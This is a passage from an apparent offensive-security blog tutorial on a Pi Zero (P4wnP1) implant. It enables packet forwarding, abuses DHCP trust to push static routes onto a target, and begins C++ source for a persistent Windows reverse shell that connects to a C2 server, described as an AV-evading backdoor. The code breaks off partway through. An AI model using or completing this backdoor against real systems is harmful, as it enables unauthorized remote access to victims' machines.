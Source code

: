 ### Routing
To facilitate and enable routing through the Pi Zero there are a few basic things that need to be setup.  The first requirement is configuring the Pi's Kali Linux to enable packet forwarding.  Once that's enabled the goal will be to exploit the DHCP Server/Client trust to place static routes on our target host.  The client static routes are covered under the section <a href="/blog/p4wnp1-1.html#setup-dhcp-static-routes">Setup DHCP Static Routes</a> above.

Using the Pi as a Router enables the use of additional resources to enumerate and attack the target endpoint. 


![RemoteAccess](/images/jtekt/p4wnp1/1/Kali2Win10.png)

#### Enable Packet Forwarding

*/etc/sysctl.conf*
```bash
net.ipv4.ip_forward = 1
```

With the change made you can reboot the Pi or reload systemctl.

```bash
/etc/init.d/procps restart
```

## Reverse Shell Payload

### Source Code
The source code used here is from <a href="https://0xdarkvortex.dev/index.php/paranoid-ninja/" target = "_blank">Paranoid Ninja's</a> blog where he goes over AV bypass techniques.  An aspect of this app I appreciate is the persistence.  Similar to the netcat listener as a service and its ability to self-restart, this reverse shell application will attempt to re-connect after an idle period of 5 seconds.

What we end up with is a hardy backdoor into our target system.

```cpp
//Author : Paranoid Ninja 
//Email  : paranoidninja@protonmail.com 
//Blog   : https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/ 

//Compile with g++/i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc 

//The effective size with statically compiled code should be around 13 Kb 

#include <winsock2.h> 
#include <windows.h> 
#include <ws2tcpip.h> 
#pragma comment(lib, "Ws2_32.lib") 
#define DEFAULT_BUFLEN 1024 

void RunShell(char* C2Server, int C2Port) { 
    while(true) { 
```